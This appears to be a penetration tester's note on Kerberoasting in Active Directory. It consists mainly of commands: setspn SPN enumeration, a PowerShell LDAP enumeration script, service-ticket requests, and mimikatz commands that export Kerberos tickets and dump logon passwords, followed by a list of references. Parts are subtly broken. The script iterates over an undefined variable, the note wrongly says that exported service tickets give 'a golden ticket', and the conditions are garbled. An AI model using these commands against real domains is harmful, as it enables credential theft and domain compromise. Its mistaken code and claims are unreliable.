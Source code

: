 # Living off the Land

Search Tag(s): #kerberoasting

## 01 - Conditions

When SPN service accounts like SQLService, iis_svc, MSSQL_SVC, etc. With two of the following conditions in order to achieve this:

1. It must be part of the **"Domain Admins"** group member.
2. Has **weak passwords** when the **Kerberos 5, etype 23, TGS-REP** hash type is crackable due to those reasons (refer to [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xC - Password Cracking/Offline/JTR#^0c9a3c|JTR]] or [[Hashcat#^87baa5|Hashcat]] section **under Offline Password Cracking**).

## 02 - Enumeration

### 2.1 - Command Prompt

```
C:\> setspn.exe -T <computername>.<domain.com> -q */*

C:\> setspn.exe -T <computername>.<domain.com> -q */* | findstr.exe SQL

mimikatz # kerberos::list /export

mimikatz # sekurlsa::logonpasswords
```

## 2.2 - PowerShell

```
PS C:\> Get-ADUser -Filter {serviceprincipalname -Like "*"} -Properties serviceprincipalname
```

```
PS C:\> Add-Type -AssemblyName System.IdentityModel

PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/<FQDN>'

PS C:\> klist
```

Retrieve SPN users that are possibly **kerberoastable** of the `samaccountname` and `serviceprincipalname`.

```powershell
PS C:\> Get-Content .\enumerateSPN.ps1
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"

$SearchString = $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$SearchString

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter = "serviceprincipalname=*http*"

$Result = $Searcher.FindAll()

foreach($obj in $Output) {
    foreach($prop in $obj.Properties) {
        $prop
    }
}
```

You'll get a golden ticket

```
mimikatz # kerberos::list /export
```

Right-Click > CTRL + Right-Click > Run as different user

```
mimikatz # sekurlsa::logonpasswords
```

---
## References

- [LOFLCAB: setspn](https://lofl-project.github.io/loflcab/Binaries/setspn/)

### Active Directory Security

- [Active Directory Security: SPNs](https://adsecurity.org/?page_id=183)

- [Active Directory Security Risk #101: Kerberos Unconstrained Delegation (or How Compromise of a Single Server Can Compromise the Domain)](https://adsecurity.org/?p=1667)

### Mubix

- [Malicious.link: Kerberoast Part 1](https://room362.com/posts/2016/kerberoast-pt1/)

- [Malicious.link: Kerberoast Part 2](https://room362.com/posts/2016/kerberoast-pt2/)

- [Malicious.link: Kerberoast Part 3](https://room362.com/posts/2016/kerberoast-pt3/)

### Pentestlab

- [Pentestlab Blog: SPN Discovery](https://pentestlab.blog/2018/06/04/spn-discovery/)

- [Pentestlab Blog: Kerberoast](https://pentestlab.blog/2018/06/12/kerberoast/)

### Red Team Notes

- [Red Team Notes: Active Directory Kerberos Abuse Child Domain Domain Admin to Enterprise Admin In Parent Domain](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain)

- [Red Team Notes: Active Directory Kerberos Abuse T1208-Kerberoasting](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting)

### Hacking Articles

- [Hacking Articles: Deep Dive Into Kerberoasting Attack](https://www.hackingarticles.in/deep-dive-into-kerberoasting-attack/)

### Certcube

- [Certcube: Kerberoasting Simplified Attack and Defense](https://blog.certcube.com/kerberoasting-simplified-attack-and-defense/)

### XPNSec

- [XPNSec: Kerberos AD Attacks - Kerberoasting](https://blog.xpnsec.com/kerberos-attacks-part-1/)